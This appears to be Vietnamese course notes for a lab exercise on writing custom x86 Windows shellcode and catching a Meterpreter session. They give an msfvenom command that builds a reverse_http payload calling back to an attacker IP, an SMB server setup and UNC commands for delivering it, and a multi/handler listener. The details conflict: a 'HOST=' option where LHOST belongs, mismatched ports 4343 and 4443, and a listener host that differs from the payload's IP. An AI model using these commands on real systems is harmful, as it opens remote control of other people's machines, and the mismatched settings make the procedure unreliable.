 # Bài 2:
Lưu ý chụp lại các đoạn có IP của máy Debug sau khi đã khai thác thành công để làm minh chứng.  
[Các template các hàm](https://github.com/Cl0wnK1n9/ShellcodeTemplate-windowx86/tree/main/Functions)  

Để load DLL thì đổi sang ASCII sang hex (Lưu ý trong code viết bytes theo chiều ngược lại) \
Để load API thì tính hash: \
[Code tính hash tên các API](https://github.com/10u15hack1ng/x86Win-Notes/blob/main/Custom%20Shellcode/getAPIhash.py)

Để sinh payload bằng metasploit trên máy tấn công:
```
$ msfvenom -p windows/meterpreter/reverse_http HOST=192.168.45.178 LPORT=4343 -f exe -o met.exe
```

Thay đổi file hosts trên máy Windows để tạo kết nối UNC sang máy tấn công.  
Dùng notepad để thêm 1 dòng trong file hosts.
```
# localhost name resolution is handled within DNS itself.
#  127.0.0.1       localhost
#  ::1             localhost
    <Địa chỉ IP>   kali
```

Để tạo SMB server trên máy tấn công ([Nếu không có lệnh smbserver.py]())
```
sudo smbserver.py met /home/kali/ -smb2support
```

Khi đã chạy smb server thành công thì có thể kiểm tra bằng lệnh sau trên máy Windows:
```
pushd <Đường dẫn UNC>
# VD: pushd \\ubuntu\folder
# Khi đó trong terminal sẽ hiện lên folder của bên máy đang chạy SMB 

# Thoát đường dẫn
popd <Đường dẫn UNC>
```

Thực thi shellcode (file python) trên máy Windows và tạo listener trên máy tấn công với các lệnh sau:
```
# Exploit after met.exe execution
$ msfconsole
msf> use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_http
msf exploit(handler) > set LHOST consulting.example.org
msf exploit(handler) > set LPORT 4443
msf exploit(handler) > set SessionCommunicationTimeout 0
msf exploit(handler) > set ExitOnSession false
msf exploit(handler) > exploit -j
```

Tham khảo cách viết: [Shellcode trong sách](https://github.com/10u15hack1ng/x86Win-Notes/blob/main/Custom%20Shellcode/shellcode_NO_CHANGE_PLEASE.py)  

Trong quá trình debug, có thể dùng lệnh `dds <địa chỉ>` để kiểm tra các hàm đã được lưu đúng chưa.  
Nếu các hàm đã được lưu đúng thì sẽ hiện tên hàm ở trong output.
